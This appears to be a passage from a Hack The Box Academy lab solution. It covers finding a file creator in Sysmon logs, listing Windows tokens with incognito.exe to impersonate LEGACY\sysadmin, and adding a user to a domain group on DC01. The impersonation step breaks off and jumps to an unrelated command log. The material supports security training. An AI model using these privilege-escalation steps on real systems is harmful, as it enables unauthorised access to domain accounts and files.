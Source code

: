### "Type the username that was used to create this PowerShell script on DC01. You may go through the Sysmon logs on DC01. Answer format is : NT\*\*\*\*\*\*\*\*\*\*\\\*\*\*\*\*\*"

Students will scrutinize the log found in the previous question related to `File created` (event ID `11`), finding the user responsible for the creation of the file:

![[HTB Solutions/Others/z. images/66d88649a3493114ac5bc88966d99afd_MD5.jpg]]

Answer: `NT AUTHORITY\SYSTEM`

# Skills Assessment

## Question 5

### "Type the content of the C:\\skills-assessment\\flag\\flag-final.txt file as your answer. Answer format is ctf-{*****\-******}-*\*\*"

Students will return to the PowerShell prompt, navigate to `C:\Tools`, and use `incognito.exe` to list the available tokens and find a token related to another user:

Code: powershell

```powershell
cd C:\Tools
.\incognito.exe list_tokens -u
```

```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Windows\system32> cd C:\Tools
PS C:\Tools> .\incognito.exe list_tokens -u

[-] WARNING: Not running as SYSTEM. Not all tokens will be available.
[*] Enumerating tokens
[*] Listing unique users found

Delegation Tokens Available
============================================
LEGACY\normal.user
LEGACY\sysadmin

<SNIP>
```

Next, students will use `incognito.exe` to spawn a Command Prompt in the context of the `LEGACY\sysadmin` user and his token:

Code: powershell


[DC01]: PS C:\Users\admin.user\Documents> Get-ACL -Path "\\dc01\C$\ADMINS$\" | Format-List -Property AccessToString
[DC01]: PS C:\Users\admin.user\Documents> net group Admin-Files admin.user /add
[DC01]: PS C:\Users\admin.user\Documents> cd 'C:\ADMINS$\'
[DC01]: PS C:\ADMINS$> ls
[DC01]: PS C:\Users\admin.user\Documents> exit